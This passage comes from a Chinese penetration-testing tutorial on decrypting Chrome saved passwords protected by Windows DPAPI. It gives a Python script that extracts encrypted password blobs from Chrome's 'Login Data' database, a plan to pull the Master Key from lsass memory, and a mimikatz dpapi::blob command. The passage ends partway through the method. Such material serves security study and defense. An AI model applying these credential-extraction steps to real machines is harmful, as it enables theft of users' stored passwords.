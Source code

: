 ## 0x03 DPAPI解密思路
---

### 1、定位加密的Master Key file

文章[《渗透技巧——离线导出Chrome浏览器中保存的密码》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)曾得出结论：`无法定位解密Chrome数据库对应的Master Key file`

该结论有误，实际上能够对其定位，方法见0x04

### 2、从lsass进程提取出Master Key

此处换了一种思路，因此不需要用户的明文口令

**注：**

离线从Master Key file提取出Master Key，必须要获得用户的明文口令

### 3、使用Master Key解密DPAPI blob，获得明文


## 0x04 实现方法
---

测试系统：

Win7 x86

### 1、使用python读取数据库文件并提取出密文

使用python脚本读取Login Data并保存到文件中，代码如下：

```
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect("Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
    f = open('test.txt', 'wb')
    f.write(result[2])
    f.close()
```

脚本执行后，提取Login Data中保存的密文，保存为test.txt

### 2、获得该密文对应的Master Key file

mimikatz命令如下：

```
dpapi::blob /in:test.txt
```

